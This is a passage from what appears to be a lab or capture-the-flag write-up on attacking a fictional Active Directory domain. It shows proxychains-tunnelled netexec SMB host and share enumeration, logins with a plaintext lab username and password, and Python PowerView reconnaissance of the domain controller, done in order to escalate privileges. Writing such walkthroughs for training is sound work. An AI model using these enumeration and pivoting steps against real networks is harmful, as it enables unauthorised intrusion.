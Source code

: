 ```
proxychains -q nxc smb targets.txt                                                          
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 x64 (name:SOUTHERN-TOWER) (domain:async.empire) (signing:False) (SMBv1:False)
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False)
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

We can also enumerate SMB shares on the accessible hosts.

```
proxychains -q nxc smb targets.txt -u 'Towns_Merchant_7' -p 'Hq7L2wPzX9' --shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 x64 (name:SOUTHERN-TOWER) (domain:async.empire) (signing:False) (SMBv1:False)
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False)
SMB         10.2.10.11      445    SOUTHERN-TOWER   [+] async.empire\Towns_Merchant_7:Hq7L2wPzX9 
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Towns_Merchant_7:Hq7L2wPzX9 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Enumerated shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   Share           Permissions     Remark
SMB         10.2.10.11      445    SOUTHERN-TOWER   -----           -----------     ------
SMB         10.2.10.11      445    SOUTHERN-TOWER   ADMIN$                          Remote Admin
SMB         10.2.10.11      445    SOUTHERN-TOWER   C$                              Default share
SMB         10.2.10.11      445    SOUTHERN-TOWER   Castle_Guards_Schedule                 Guard schedule for castle servants
SMB         10.2.10.11      445    SOUTHERN-TOWER   IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          [*] Enumerated shares
SMB         10.2.30.51      445    KING-DC          Share           Permissions     Remark
SMB         10.2.30.51      445    KING-DC          -----           -----------     ------
SMB         10.2.30.51      445    KING-DC          ADMIN$                          Remote Admin
SMB         10.2.30.51      445    KING-DC          C$                              Default share
SMB         10.2.30.51      445    KING-DC          IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          NETLOGON        READ            Logon server share 
SMB         10.2.30.51      445    KING-DC          SYSVOL          READ            Logon server share 
```

There is a `Castle_Guards_Schedule` on `SOUTHERN-TOWER` however our current user does not have READ permissions on the share.

To escalate privileges, we can continue enumerating the domain using `PowerView` to identify potential paths to higher-privileged accounts.

Unfortunately, since we do not currently have access to a Windows machine - we cannot use the popular [PowerView PS Module](https://powersploit.readthedocs.io/en/latest/Recon/PowerView/) without connecting a Windows machine to the pivot instead of a Linux host.

We can instead use the Python version of `PowerView`, which has slightly less functionality but is still useful for our purposes. 

```
proxychains -q powerview 'async.empire'/'Towns_Merchant_7':'Hq7L2wPzX9'@King-DC.async.empire

Logging directory is set to /home/kali/.powerview/logs/async-towns_merchant_7-king-dc.async.empire
╭─LDAP─[King-DC.async.empire]─[async\Towns_Merchant_7]
╰─PV ❯ Get-Domain -Properties distinguishedName
distinguishedName     : DC=async,DC=empire
```
